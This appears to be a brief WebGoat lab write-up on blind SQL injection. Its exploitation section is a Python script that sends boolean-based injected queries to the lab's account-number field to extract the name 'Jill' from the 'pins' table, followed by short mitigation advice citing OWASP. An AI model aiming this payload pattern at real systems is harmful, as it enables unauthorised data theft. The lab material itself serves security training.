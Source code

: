 ## Vulnerability:

blind sqli

## Exploitation:

Here's my script that exploits (finds requested name field: "Jill" in pins table) this issue:

```
#!/usr/bin/python3

# (http://docs.python-requests.org/en/latest/)
from requests import post
import sys

proxies = {
    "http": "http://127.0.0.1:8081",
}

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://webgoat.hacking-lab.com',
    'Referer': 'http://webgoat.hacking-lab.com/attack?Screen=13&menu=1100'
}

cookie = ''

for j in range(1,10):
    for i in range(65,122):
        payload = "101 AND (SELECT ascii(substr(name,"+str(j)+","+str(j)+")) FROM pins WHERE cc_number=4321432143214321)="+str(i)

        data = {'account_number': payload, 'SUBMIT': 'Go'}
        if cookie == '':
            r = post("http://webgoat.hacking-lab.com/attack?Screen=13&menu=1100", headers=headers, proxies=proxies, data=data)
            cookie = dict(JSESSIONID=r.cookies['JSESSIONID'])
        else:
            r = post("http://webgoat.hacking-lab.com/attack?Screen=13&menu=1100", headers=headers, proxies=proxies, cookies=cookie, data=data)

        if 'Account number is valid' in r.text:
            print(chr(i))
            break
```

## Mitigation:
1) validate input data

2) follow guidelines from https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet
